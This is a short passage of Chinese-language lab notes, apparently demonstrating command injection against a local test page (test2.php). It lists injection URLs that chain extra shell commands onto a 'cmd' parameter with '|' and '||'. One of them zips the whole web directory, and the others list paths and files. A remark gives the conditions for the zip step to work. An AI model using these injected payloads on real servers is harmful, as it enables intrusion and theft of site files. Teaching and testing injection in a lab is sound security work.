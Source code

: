 `http://127.0.0.1:9999/test2.php?cmd=127.0.0.q|zip -r zip.zip ./*|pwd`

![](assets/markdown-img-paste-20180416125125317.png)

可见压缩包已经有了，前提是服务器安装了`zip`命令，同时某文件夹有可写权限  

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1||pwd`

![](assets/markdown-img-paste-2018041612535161.png)

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.q||pwd||ls`

![](assets/markdown-img-paste-20180416125510446.png)
